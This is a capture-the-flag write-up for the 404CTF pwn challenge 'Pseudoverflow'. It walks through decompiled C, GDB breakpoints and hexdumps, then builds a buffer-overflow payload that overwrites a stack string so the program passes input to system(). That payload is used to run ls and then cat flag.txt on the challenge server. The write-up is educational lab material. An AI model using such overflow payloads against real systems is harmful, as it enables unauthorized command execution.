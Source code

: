 ```yaml
---
layout: Post
format: chall
title: Pseudoverflow
date: 2024-04-20
ctf: 404CTF
tags: [Buffer Overflow, C, GDB]
category: [Pwn]
---
```

# Pseudoverflow ⚪

<a class="back-link" href="../../">< Go back</a>

## Description

Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt

Connexion :
`nc challenges.404ctf.fr 31958`

all files in [resources/](./resources) were provided.

## Challenge

### Recon

I first tried debugging the application using binary ninja (Free) but ended up going to gdb as it's easier to play with long inputs (you can run `shell python` for example)

Let's first just look at the decompiled code (High Level IL) of the program and get a general idea of what we can exploit:

```c
int64_t win(char* arg1)
    return system(line: arg1)

int32_t main(int32_t argc, char** argv, char** envp)
    setvbuf(fp: stdin, buf: nullptr, mode: 2, size: 0)
    setvbuf(fp: __bss_start, buf: nullptr, mode: 2, size: 0)
    setvbuf(fp: stderr, buf: nullptr, mode: 2, size: 0)
    int32_t var_e
    __builtin_strcpy(dest: &var_e, src: "perds")
    puts(str: &data_2008)
    void buf
    fgets(buf: &buf, n: 0x100, fp: stdin)
    if (strcmp(&var_e, "gagne") != 0)
        puts(str: "Nous vous recontacterons dans le…")
    else
        win(&buf)
    return 0
```

As we can see, our objective is to call `win()` which takes an argument and executes it using `system()` this is pretty much a revshell.

To be able to call `win()` we first have to match `&var_e` to `"gagne"` as they get `strcmp()`, though we cannot modify `&var_e` directly and it's set to `"perds"`.

We can only interact with `buf` which is the buffer we write to from `fgets()` with a maximum of 256 chars.

Okay let's go into gdb now.

```bash
gdb ./resources/course
(gdb) disas main
# [...]
# 0x0000555555555225 <+145>:   call   0x555555555050 <fgets@plt>
# 0x000055555555522a <+150>:   lea    -0x6(%rbp),%rax
# [...]
# 0x0000555555555238 <+164>:   mov    %rax,%rdi
# 0x000055555555523b <+167>:   call   0x555555555060 <strcmp@plt>
# [...]
(gdb) br *main+145
(gdb) br *main+150
(gdb) br *main+164
```

These 3 breakpoints this will help us keep up with the flow of the program easily, we are monitoring before and after the `fgets` call, and before the `strcmp` call.

Let's also setup some basic `xxd` to view the raw memory as we are probably going to have to deal with buffer overflows (I got this trick from this [stackoverflow post](https://stackoverflow.com/a/9234007/14578266)):

```bash
(gdb) define xxd
>dump binary memory dump.bin $arg0 $arg0+$arg1
>shell xxd dump.bin
>end
# USAGE: xxd <obj> <size>
# i.e.:  xxd $rax  200
```

Okay let's start.

```bash
(gdb) r
# Bienvenue à la course annuelle du 404CTF!!
# Pour pouvoir participer, nous avons besoin de votre pseudo :

# Breakpoint 1, 0x0000555555555225 in main ()
(gdb) c
# Continuing.
AAAA               # <---------- Our input

# Breakpoint 2, 0x000055555555522a in main ()
(gdb) xxd $rax 170
# 00000000: 4141 4141 0a00 0000 4000 0000 0000 0000  AAAA....@.......
# 00000010: 0000 0000 0000 0000 0000 0000 0000 0000  ................
# 00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
# 00000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
# 00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
# 00000050: 0000 0000 0000 0000 0069 fef7 ff7f 0000  .........i......
# 00000060: 0000 0000 0000 0000 b0da 7065 7264 7300  ..........perds.
# 00000070: 0100 0000 0000 0000 ca06 dff7 ff7f 0000  ................
# 00000080: 20de ffff ff7f 0000 9451 5555 5555 0000   ........QUUUU..
# 00000090: 4040 5555 0100 0000 38de ffff ff7f 0000  @@UU....8.......
# 000000a0: 38de ffff ff7f 0000 104f                 8........O
```

In this hexdump we see that there is a `"perds"` string at `$rax+0x6b` this is probably `&var_e`.

### Creating the payload

Okay so we have to create a payload that will pad `106` characters (`0x6b - 1`) and then write `"gagne"` over the `"perds"`. Then on top of that we need to have our shell payload at the start.

```bash
(gdb) shell python -c 'import os; os.write(1, b"/bin/ls\x00" + b"A" * 98 + b"gagne\x00\x0a")' > payload.bin
```

Let's break this down, here is the hexdump of the payload

```
00000000: 2f62 696e 2f6c 7300 4141 4141 4141 4141  /bin/ls.AAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000060: 4141 4141 4141 4141 4141 6761 676e 6500  AAAAAAAAAAgagne.
00000070: 0a                                       .
```

Let's break this down.

- As you can see we start with our shell command `/bin/ls`
- then a null byte `\x00` to "finish" that buffer in the eyes of `strcmp()`
- then our `AAAA` padding
- then at exactly `+0x6b` our string `"gagne"`
- then another null byte `\x00`
- finally a line break `\x0a` (This is because stdin is in line buffered mode)

If we run that in gdb:

```bash
(gdb) r < payload.bin
# Bienvenue à la course annuelle du 404CTF!!
# Pour pouvoir participer, nous avons besoin de votre pseudo :

# Breakpoint 1, 0x0000555555555225 in main ()
(gdb) c
# Continuing.

# Breakpoint 2, 0x000055555555522a in main ()
(gdb) c
# Continuing.

# Breakpoint 3, 0x0000555555555238 in main ()
(gdb) c
# Continuing.
# [Detaching after vfork from child process 260556]
# course  dump.bin  payload.bin
```

And we got our `ls`, let's do the same now but trough netcat to the actual challenge binary that has the flag.

For this I adapted the appraoch to a python script [pwn_nc.py](./pwn_nc.py) (From `ls` we learn that there is a `flag.txt` file)

```bash
python3 pwn_nc.py
# [*] Payload: b'/bin/cat flag.txt\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgagne\x00\n'
# [+] Opening connection to challenges.404ctf.fr on port 31958: Done
# Bienvenue à la course annuelle du 404CTF!!

# Pour pouvoir participer, nous avons besoin de votre pseudo :

# [+] Receiving all data: Done (16B)
# [*] Closed connection to challenges.404ctf.fr port 31958
# b'404CTF{0v3rfl0w}'
```

Flag: `404CTF{0v3rfl0w}`
